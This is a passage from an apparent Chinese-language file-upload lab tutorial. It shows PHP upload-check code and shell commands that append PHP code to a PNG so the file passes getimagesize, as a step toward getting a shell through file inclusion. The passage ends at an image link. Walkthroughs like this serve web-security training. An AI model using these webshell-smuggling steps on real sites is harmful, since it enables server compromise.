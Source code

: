 php

```php
// h获取文件名、文件后缀、文件大小
$uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
$uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
$uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
$uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

// 文件后缀是否是  jpg jpeg png 且文件大小 小于 100000
if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
   ( $uploaded_size < 100000 ) &&

   // 使用 getimagesize 函数进行图片检测
   getimagesize( $uploaded_tmp ) ) {
      上传图片
      }
```

getimagesize 函数会检测文件是否是图片，所以这里我们得通过制作图马来绕过这个函数检测。

- Linux 下 图马制作





 

```bash
# 将 shell.php 内容追加到 pic.png
cat shell.php >> pic.png

# png + php 合成 png 图马
cat pic.png shell.php >> shell.png

# 直接 echo 追加
echo '<?php phpinfo();?>' >> pic.png
```

- Windows 下 图马制作





none

```none
copy pic.png/b+shell.php/a shell.png
```

图马制作完成之后我们就已经可以绕过 getimagesize 函数的检测了，接下来主要是绕过对后缀的检测。这里暂时无法绕过检测，目前只能借助文件包含或者命令执行漏洞来进一步 Getshell 下面演示文件包含漏洞

首先正常上传我们的图马：



![img](https://image.3001.net/images/20200527/15905677165519.png)
